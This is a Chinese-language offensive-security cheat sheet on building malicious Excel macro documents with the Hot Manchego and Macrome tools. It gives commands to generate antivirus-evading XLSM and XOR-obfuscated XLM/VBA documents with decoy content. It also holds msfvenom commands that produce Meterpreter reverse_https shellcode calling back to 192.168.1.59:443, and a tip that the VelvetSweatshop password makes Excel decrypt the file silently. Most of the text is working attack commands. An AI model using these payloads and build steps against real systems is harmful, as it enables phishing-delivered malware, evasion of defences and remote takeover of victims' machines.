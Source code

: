 
## Excel

### XLSM - 热曼切戈 

> 使用EPPlus时，Excel文档的创建变化显著，以至于大多数反病毒软件没有捕捉到一个简单的lolbas有效载荷，以在目标机器上获取信标。

* https://github.com/FortyNorthSecurity/hot-manchego

```ps1
生成CS宏并将其保存到Windows为vba.txt
PS> New-Item blank.xlsm
PS> C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /reference:EPPlus.dll hot-manchego.cs
PS> .\hot-manchego.exe .\blank.xlsm .\vba.txt
```

### XLM - Macrome

> XOR混淆技术不适用于VBA宏，因为VBA存储在不同的流中，当你对文档进行密码保护时，它不会被加密。这只适用于Excel 4.0宏。

* https://github.com/michaelweber/Macrome/releases/download/0.3.0/Macrome-0.3.0-osx-x64.zip
* https://github.com/michaelweber/Macrome/releases/download/0.3.0/Macrome-0.3.0-linux-x64.zip
* https://github.com/michaelweber/Macrome/releases/download/0.3.0/Macrome-0.3.0-win-x64.zip

```ps1
# 注意：有效载荷不能包含NULL字节。

# 默认计算器
msfvenom -a x86 -b '\x00' --platform windows -p windows/exec cmd=calc.exe -e x86/alpha_mixed -f raw EXITFUNC=thread > popcalc.bin
msfvenom -a x64 -b '\x00' --platform windows -p windows/x64/exec cmd=calc.exe -e x64/xor -f raw EXITFUNC=thread > popcalc64.bin
# 自定义外壳代码
msfvenom -p generic/custom PAYLOADFILE=payload86.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o shellcode-86.bin -b '\x00'
msfvenom -p generic/custom PAYLOADFILE=payload64.bin -a x64 --platform windows -e x64/xor_dynamic -f raw -o shellcode-64.bin -b '\x00'
# MSF外壳代码
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.59 LPORT=443 -b '\x00'  -a x64 --platform windows -e x64/xor_dynamic --platform windows -f raw -o msf64.bin
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.59 LPORT=443 -b '\x00' -a x86 --encoder x86/shikata_ga_nai --platform windows -f raw -o msf86.bin

dotnet Macrome.dll build --decoy-document decoy_document.xls --payload popcalc.bin --payload64-bit popcalc64.bin
dotnet Macrome.dll build --decoy-document decoy_document.xls --payload shellcode-86.bin --payload64-bit shellcode-64.bin

# 对于VBA宏
Macrome build --decoy-document decoy_document.xls --payload-type Macro --payload macro_example.txt --output-file-name xor_obfuscated_macro_doc.xls --password VelvetSweatshop
```

在使用Macrome构建模式时，可以使用--password标志通过XOR混淆来加密生成的文档。如果在构建文档时使用默认密码**VelvetSweatshop**，所有版本的Excel都将自动解密文档，无需用户额外输入。这个密码只能在Excel 2003中设置。
